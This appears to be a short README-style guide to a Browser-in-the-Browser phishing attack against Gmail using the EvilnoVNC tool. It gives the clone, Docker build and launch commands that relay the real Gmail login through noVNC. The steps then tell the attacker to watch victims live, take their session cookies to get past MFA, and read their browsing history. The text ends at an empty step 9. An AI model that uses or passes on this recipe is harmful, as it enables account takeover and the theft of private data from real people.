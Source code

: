 # Browser-in-the-Browser BitB attack

Tool: EvilnoVNC: https://github.com/JoelGMSec/EvilnoVNC

## Steps

#### 1) Clone the EvilnoVNC tool 

    git clone https://github.com/JoelGMSec/EvilnoVNC

#### 2) Setup tool

    cd EvilnoVNC

To ensure Docker has the proper access to build context files. The ownership of the Downloads directory is first changed to match the container’s internal user.

    sudo chown -R 103 Downloads

#### 3) Deploy the EvilnoVNC phishing environment as a container

    sudo docker build -t joelgmsec/evilnovnc .

#### 4) Launch EvilnoVNC with Targeted Phishing Page

    sudo chmod +x *

    sudo ./start.sh 1920x1080x24 https://mail.google.com

This step makes all scripts executable. It then launches a virtual desktop inside a Docker container at the specified resolution and opens the real Gmail login page in a browser, exposing it interactively via noVNC over WebSockets.

#### 5) Wait for the victim to fall for our attack! (Our attack even Bypasses MFA)

#### 6) You can check the victim's actions in real-time view by browsing on our localhost.

#### 7) Next, session cookies are extracted from our own browser and imports them into Chromium for full access without needing to phish artifacts, code injections, or traffic proxying.

#### 8) In Chromium, visit

    chrome://history

which shows the victim's browsing history.

#### 9) 
